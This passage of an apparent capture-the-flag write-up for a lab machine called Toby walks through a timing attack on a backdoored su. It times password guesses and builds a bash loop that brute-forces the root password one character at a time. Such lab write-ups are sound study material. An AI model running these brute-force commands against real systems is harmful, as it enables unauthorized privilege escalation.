 The while loop runs while `i != 10`, so that implies a hardcoded length of the password.

`/etc/.bd` is on Toby, and only readable by root:

```

jack@toby:/etc$ ls -l .bd
-r-------- 1 root root 10 Jul 14 13:39 .bd

```

It also has 10 bytes.

### Brute Force

#### POC

The theory here is that it will take 0.1 seconds longer for each character that’s right starting at the start of the password. I can test this will a quick Bash loop. First, to test, I’ll `echo` the password and pipe that into `time su`:

```

jack@toby:/etc$ echo "a---------" | time su 
Password: su: Authentication failure
Command exited with non-zero status 1
0.01user 0.00system 0:01.01elapsed 1%CPU (0avgtext+0avgdata 3736maxresident)k
0inputs+8outputs (0major+278minor)pagefaults 0swaps

```

On the second to last line there’s a `0:01.01elapsed`. That’s the time I’m looking for. That output goes to `stderr` so I’ll redirect it to `stdout` (`2>&1`) and then `grep`:

```

jack@toby:/etc$ echo "a---------" | time su 2>&1 | grep elapsed
0.01user 0.00system 0:01.01elapsed 1%CPU (0avgtext+0avgdata 3768maxresident)k

```

I can use a simple regex to match on the time as well and then `-o` to make it a bit prettier:

```

jack@toby:/etc$ echo "a---------" | time su 2>&1 | grep -Eo '.:..\...elapsed'
0:01.01elapsed

```

I’ll use Python to get the printable characters and start building my loop. To start, I’ll just look at the output of the first 10:

```

python3 -c 'import string; print("\n".join(string.printable[:10]))' 
| while read c; do 
    echo -en "$c "; 
    echo "${c}---------" 
    | time su 2>&1 
    | grep -Eo '.:..\...elapsed'; 
done

```
